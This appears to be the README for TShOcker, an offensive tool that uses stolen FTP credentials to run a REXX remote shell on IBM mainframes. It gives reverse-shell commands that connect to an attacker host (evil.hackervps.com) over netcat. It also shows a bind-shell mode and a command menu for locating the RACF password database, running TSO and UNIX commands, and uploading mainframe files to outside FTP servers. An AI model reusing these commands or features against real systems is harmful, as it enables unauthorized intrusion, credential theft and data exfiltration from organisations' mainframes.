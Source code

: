                   .-~*~--,.   .-.
          .-~-. ./OOOOOOOOO\.'OOO`9~~-.
        .`OOOOOO.OOM.OLSONOOOOO@@OOOOOO\
       /OOOO@@@OO@@@OO@@@OOO@@@@@@@@OOOO`.
       |OO@@@WWWW@@@@OOWWW@WWWW@@@@@@@OOOO).
     .-'OO@@@@WW@@@W@WWWWWWWWOOWW@@@@@OOOOOO}
    /OOO@@O@@@@W@@@@@OOWWWWWOOWOO@@@OOO@@@OO|
   lOOO@@@OO@@@WWWWWWW\OWWWO\WWWOOOOOO@@@O.'
    \OOO@@@OOO@@@@@@OOW\|||||\WWWW@@@@@@@O'.
     `,OO@@@OOOOOOOOOOWW\|||||\WWWW@@@@@@OOO)
      \,O@@@@@OOOOOOWWWWW\|||||\WW@@@@@OOOO.'
        `~c~8~@@@@WWW@@W\|||||||\WOO|\UO-~'
             (OWWWWWW@/\W\|||||||\WO)
               `~-~''     \|||\WW=*'
                         __\|||\
                         \||||||\
                          \||||__\
          TShOcker         \||\
                            \|\
                             \|\
                              \\
                               \\
                                \
                                 \

TShOcker
========

A REXX script (CATSO) wrapped in JCL, enveloped in Python. CATSO is a rexx script meant to act like a mini command interpreter for TSO and UNIX but accessible through a simple netcat and/or any TCP bind (like metasploit). Using FTP (and JES mode) this script generates the necessary JCL needed to execute the rexx script in a temporary dataset. All you need to do is get a mainframe FTP username and password and you're good to go. 


Example
========

Reverse Connection
--------------------
Terminal 1: nc -l -p 31337

Terminal 2: ./TShOcker.py -r --rhost evil.hackervps.com --rport 31337 mainframe.ftp.corp.com jsmith dumbpass

Listener
--------
./TShOcker.py -l --lport 31337 mainframe.ftp.corp.com jsmith dumbpass
nc mainframe.ftp.corp.com 31337

Enter command or 'help'> help

 Core Commands
 =============

   Command           Description
   -------           -----------
   help              Help Menu
   exit              Terminate the session
   quit              Terminate the session


 Filesystem Commands
 ===================

   Command           Description
   -------           -----------
   cat               Show contents of dataset
   cp                copies a file to a new file
   ls                list datasets in HLQ
   delete            deletes a file
   del               also deletes a file
   lsmem             Lists files and members
                     !!WARNING!! Takes time and IO


 Networking Commands
 ===================

   Command           Description
   -------           -----------
   ipconfig          Display interfaces
   ifconfig          Display interfaces


 System Commands
 ===============

   Command           Description
   -------           -----------
   getuid            Get current user name
   sysinfo           Remote system info (i.e OS)
   racf              Show password database location
   execute           Execute a TSO command
   tso               Execute TSO command (same as execute)
   unix              UNIX command (i.e ls -al)
   ftp               Upload a file from the mainframe to
                     an FTP server. Syntax is:
                     host/ip user pass filename [binary]

